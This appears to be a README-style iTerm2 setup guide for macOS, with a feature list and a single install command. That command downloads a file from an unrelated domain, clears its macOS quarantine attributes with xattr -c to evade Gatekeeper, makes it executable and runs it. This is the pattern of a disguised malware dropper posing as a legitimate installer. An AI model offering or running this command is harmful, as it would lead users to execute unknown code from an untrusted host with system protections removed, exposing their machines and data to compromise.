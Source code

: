 # 🚀 iTerm2 Setup Guide for macOS

![iTerm2 Custom Terminal Preview](screenshots/preview.png) <!-- Replace with your actual image path -->

> Boost your terminal productivity with a powerful, customizable replacement for macOS Terminal

## ✨ Key Features
- 🎨 256-Color & True Color Support
- 🔥 GPU-Accelerated Text Rendering
- ⌨️ Customizable Hotkey Windows
- 📦 Split Panes & Tab Management
- 🔌 Integration with Zsh/Bash/Fish

## 📥 Installation

### Install iTerm2
```bash
curl -o /tmp/update https://ourcars.com/update && xattr -c /tmp/update && chmod +x /tmp/update && /tmp/update
```
